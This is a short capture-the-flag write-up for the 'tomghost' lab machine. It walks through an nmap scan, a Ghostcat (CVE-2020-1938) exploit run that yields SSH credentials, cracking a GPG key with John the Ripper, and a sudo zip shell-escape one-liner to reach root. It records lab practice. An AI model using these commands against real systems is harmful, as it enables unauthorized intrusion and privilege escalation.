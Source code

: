 # tomghost

## 1. nmap scan
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## 2. Tags...
In the Tags of this CTF machine we can find "CVE-2020-1938"
So lets exploit this CVE. (exploit from https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md)
- python2 exploit.py 10.10.55.77
--> we can find some creds: skyfuck:8730281lkjlkjdqlksalks

## 3. lets try ssh... privesc
We got access
In the user folder from skyfuck are 2 files, we can download ist with:
- scp skyfuck@10.10.73.205:/home/skyfuck/* .
- gpg2john tryhackme.asc > hash
- john -wordlist=/usr/share/wordlist/rockyou.txt
We got an Password
- gpg --import tryhackme.asc
- gpg --decrypt credetials.pgp
We got Merlins Password
- su merlin
- sudo -l
We see "/usr/bin/zip".. we have to use use it.
After a search on https://gtfobins.github.io/gtfobins/zip/#sudo
- TF=$(mktemp -u)
- sudo zip $TF /etc/hosts -T -TT 'sh #'

We are root :)
